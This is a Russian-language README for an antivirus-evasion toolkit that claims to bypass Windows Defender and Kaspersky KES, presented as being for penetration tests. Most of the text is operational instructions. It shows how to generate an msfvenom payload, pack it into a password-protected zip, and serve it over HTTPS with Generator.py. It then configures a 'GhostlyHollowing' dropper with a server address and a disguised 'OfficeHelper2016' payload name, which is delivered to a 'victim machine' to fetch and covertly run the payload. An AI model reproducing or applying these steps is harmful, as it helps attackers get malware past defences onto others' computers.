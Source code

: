 # AV Bypass

Техники обхода антивирусного ПО для проведения пентестов.

| AV                | Type      | Status    |
| ------            | ------    | -------   |
| Defender          |           |           |
|                   | Scantime  | ✔️        |
|                   | Runtime   | ✔️        |
| KES               |           |           |
|                   | Scantime  | ✔️        |
|                   | Runtime   | ✔️        |


# Technics

- [X] Payload Encryption - protected zip archive
- [X] Ghostly Hollowing
- [X] Payload Staging - HTTPS server

# Files

- Generator.py      - Упаковывает payload в архив и запускает HTTPS сервер
- GhostlyHollowing  - Загружает архив с HTTPS сервера, распаковывает и скрыто запускает

# Usage

- Stage - Доставка и исполнение нагрузки
- No stage - Только выполнение нагрузки, доставка ложится на атакущего. Может быть полезно при доставке через альтернативные каналы.

## Stage

1. Для начала необходимо создать полезную нагрузку, для примера используем запуск калькулятора с помощью msfvenom

```
msfvenom -p windows/x64/exec EXITFUNC=thread CMD=calc.exe -f exe -a x64 -o payload.exe
```

2. В файле Generator.py необходимо задать параметры сервера

```python
# Change it
# ------------------ #
IP = ""                                 # IP https сервера
PORT = 443                              # Порт
PATH = '/super_secret_path'             # Путь на HTTPS сервере
REAL_PASSWORD_POSITION = 0              # Номер поля с паролем в json ответе
ZIP_PASSWORD = 'super_secret_password'  # Пароль от архива
# ------------------ #
```

3. Сгенерировать сертификат и ключ

```bash
openssl genrsa -out rootCA.key 2048
openssl req -x509 -new -nodes -key rootCA.key -sha256 -days 1024 -out rootCA.pem
```

4. Запустить Generator

```bash
python3 Generator.py --certfile path/to/cert.pem --keyfile /path/to/key.pem --payload path/to/payload.exe
```

5. В директории запуска появится файл archive.zip и запустится HTTPS сервер.

6. В GhostlyHollowing открыть файл settings.h, указать идентичные генератору настройки сервера

```cpp
#define GHOSTING
#define DROPPER

#ifdef _WIN64
#define IS32BIT false
#else
#define IS32BIT true       // Если собирать x32, то сам payload тоже должен быть x32
#endif

#ifdef DROPPER
#define REAL_PASSWORD_NAME "password_0"
#define REAL_PATH "/super_secret_path"
#define SERVER "192.168.100.1"
#define PORT 443

#define REQUESTS_BEFORE 5  // Кол-во запросов до запросу к REAL_PATH
#define REQUESTS_AFTER 5   // Кол-во запросов после запроса к REAL_PATH
#endif
```

7. Доставить `GhostlyHollowing.exe` на машину жертвы и запустить. Программа подключится по HTTPS к серверу, загрузит архив, распакует и запустит нагрузку.

## No stage

1. Для начала необходимо создать полезную нагрузку, для примера используем запуск калькулятора с помощью msfvenom

```
msfvenom -p windows/x64/exec EXITFUNC=thread CMD=calc.exe -f exe -a x64 -o payload.exe
```

2. В GhostlyHollowing открыть файл settings.h закомментировать строку

```cpp
// #define DROPPER
```

3. Указать имя архива, пароль от архива и имя полезной нагрузки внутри архива в GhostlyHollowing.cpp

```cpp
# Имя архива
std::wstring zipFilePath = std::wstring(appDataPath) + L"\\OfficeHelper2016.zip";

# Имя полезной нагрузки внутри архива
std::string payloadFileName = "OfficeHelper2016.exe";

# Пароль от архива
std::string password = "super_secret_password";
```

4. По умолчанию поиск архива с полезной нагрузкой будет в `AppData\Roaming`. По желанию можно изменить

5. Доставить `GhostlyHollowing.exe` и архив на машину жертвы. Архив поместить в `AppData\Roaming`.

6. Запустить `GhostlyHollowing.exe`